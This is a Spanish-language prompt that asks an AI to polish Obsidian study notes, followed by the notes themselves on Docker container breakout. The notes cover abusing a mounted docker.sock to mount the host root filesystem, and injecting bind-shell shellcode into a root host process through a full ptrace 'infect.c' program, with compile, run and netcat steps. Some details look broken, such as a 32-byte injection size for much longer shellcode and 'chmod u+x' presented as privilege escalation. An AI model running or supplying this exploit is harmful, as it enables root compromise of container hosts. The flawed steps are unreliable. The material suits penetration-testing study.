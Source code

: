 
Quiero que actúes como un asistente especializado en mejorar y embellecer mis apuntes de **hacking y ciberseguridad** en Obsidian.

### Reglas de formato:
- Usa **Markdown** y todas las herramientas nativas de Obsidian:  
  - Encabezados jerárquicos (#, ##, ###…)  
  - Negritas, cursivas, tachado  
  - Listas ordenadas y no ordenadas  
  - Tablas para comparaciones  
  - Callouts (`> [!info]`, `> [!tip]`, `> [!warning]`, `> [!example]`, etc.)  
  - Diagramas con **Mermaid** (especialmente diagramas de redes, flujos y ataques)  
  - Bloques de código y comandos de terminal (bash, python, etc.)  
  - Separadores `---` para estructurar  

### Reglas de estilo:
- Embellecé y organizá mis notas para que sean **claras, fáciles de leer y visualmente atractivas**.  
- Si algo está enredado o difícil de entender, simplificalo y hacelo **más didáctico**.  
- Agregá **ejemplos prácticos** (comandos reales, simulaciones, casos de uso).  
- Respetá los **enlaces e imágenes** que yo incluya. No borres ni inventes enlaces/imágenes nuevas.  
- Podés usar **diagramas de red (Mermaid), tablas comparativas y listas de pasos** para explicar ataques, defensas y herramientas.  
- El resultado final debe ser un apunte **técnico, claro y útil para estudiar hacking**.  

Cuando te pase un texto, transformalo siguiendo estas reglas.

Aqui te va el texto:

---

# Docker Breackout

explicar teoria...



cuanod por ejemplo se hace docker ps o docker images
hay un unix socket file ubicado en ->  /var/run/docker.sock

es de file: socket
se comunica con el demonio de docker

---

vamos a ver un caso aplicado con este socket

supongamos que un contenedor se ejecuta esto.

docker run --rm -dit -v /var/run/docker.sock:/var/run/docker.sock --name ubuntuServer

suponemos que el contenedor ubuntuServer es el contenedor secuestrado luego de haber explotado alguna vulnerabilidad. sabiendo que el socket que tiene es el socket de la "maquina real" 

si efectuamos un docker images dentro de ubuntuServer vamos a ver la imagen "ubuntu" la imagen que se uso para crear ubuntuServer

por lo que podriamos dentro de este contenedor ubuntuServer armar otro contenedor y jugar con monturas tambien metiendo la carpeta el directorio raiz dentro de /mnt/root

docker run --rm -dit -v /:/mnt/root --name privesc ubuntu

y aca esta la cosa: el / es el root del host real o maquina real. no del contenedor ubuntuServer

si hacemos un docker exec -it privesc bash
cd /mnt/root

si hacemos chmod u+x /mnt/root/bin/bash

estariamos modificando el binario bash del host real poniendole permisos de ejecucion al usuario root



----

otro caso

contenedor con la flag --pid=host
tambien con --privileged el cual habilita todas las capabilities

si tienes acceso a listar las capabilities con capsh --print

sino puedes instalarlo con apt install libcap2-bin

suponiendo que sabes o descubriste lo de --pid=host y --privileged

puedes listar los procesos

ps -faux


cuando tenemos este tipo de casos que por ejemplo tenga un contenedor con --pid=host si el host tiene un proceso corriendo con privilegios de root por ejemplo python -m http.server 80 lo vamos a poder ver y utilizar a nuestro favor, esto con cuaquier proceso que este corriendo como root

la idea es poder inyectar shellcode instrucciones de bajo nivel maliciosas en el proceso que este corriendo como root, el cual permita crear un subproceso por el cual ejecute un comando

podemos ver este repositorio
https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c

especificamente este codigo infect.c

en este caso el shellcode lo ajustamos para que nos permita entablar una [[Bind Shell]] dejando un puerto 5600 abierto y luego con [[netcat]] ponerneos en escucha y conectarnos a ese puerto

existe en exploitdb un script que tiene ese shellcode. 

```c
 sh[]="\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05";

```
lo ajustamos a nuestro codigo infect.c y nos quedaria asi

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>


#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>

#include <sys/user.h>
#include <sys/reg.h>

#define SHELLCODE_SIZE 32

unsigned char *shellcode =  "\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05";


int
inject_data (pid_t pid, unsigned char *src, void *dst, int len)
{
  int      i;
  uint32_t *s = (uint32_t *) src;
  uint32_t *d = (uint32_t *) dst;

  for (i = 0; i < len; i+=4, s++, d++)
    {
      if ((ptrace (PTRACE_POKETEXT, pid, d, *s)) < 0)
	{
	  perror ("ptrace(POKETEXT):");
	  return -1;
	}
    }
  return 0;
}

int
main (int argc, char *argv[])
{
  pid_t                   target;
  struct user_regs_struct regs;
  int                     syscall;
  long                    dst;

  if (argc != 2)
    {
      fprintf (stderr, "Usage:\n\t%s pid\n", argv[0]);
      exit (1);
    }
  target = atoi (argv[1]);
  printf ("+ Tracing process %d\n", target);

  if ((ptrace (PTRACE_ATTACH, target, NULL, NULL)) < 0)
    {
      perror ("ptrace(ATTACH):");
      exit (1);
    }

  printf ("+ Waiting for process...\n");
  wait (NULL);

  printf ("+ Getting Registers\n");
  if ((ptrace (PTRACE_GETREGS, target, NULL, &regs)) < 0)
    {
      perror ("ptrace(GETREGS):");
      exit (1);
    }
  

  /* Inject code into current RPI position */

  printf ("+ Injecting shell code at %p\n", (void*)regs.rip);
  inject_data (target, shellcode, (void*)regs.rip, SHELLCODE_SIZE);

  regs.rip += 2;
  printf ("+ Setting instruction pointer to %p\n", (void*)regs.rip);

  if ((ptrace (PTRACE_SETREGS, target, NULL, &regs)) < 0)
    {
      perror ("ptrace(GETREGS):");
      exit (1);
    }
  printf ("+ Run it!\n");

 
  if ((ptrace (PTRACE_DETACH, target, NULL, NULL)) < 0)
	{
	  perror ("ptrace(DETACH):");
	  exit (1);
	}
  return 0;
}
```

tener en cuenta que el contenedor necesitamos tener instalado gcc y libcap2-bin netcat nano

con apt update && apt install gcc libcap2-bin netcat nano -y

luego compilamos

gcc infect.c -o infect

y ejecutamos

buscamos un proceso corriendo como root por ejemplo supongamos que un proceso python -m http.server 80 tiene el pid 1234

./infect 1234

luego ya estaria escuchando el host en el puerto 5600 pero primero

la ip del contenedor -> hostname -I -> 172.17.0.2
la ip del host -> por consecuencia seria 172.17.0.1

en el contenedor obviamente

nc 172.17.0.1 5600
nos devuelve la consola interactiva


ahi ya puedes hacer el [[Tratamiento de TTY]]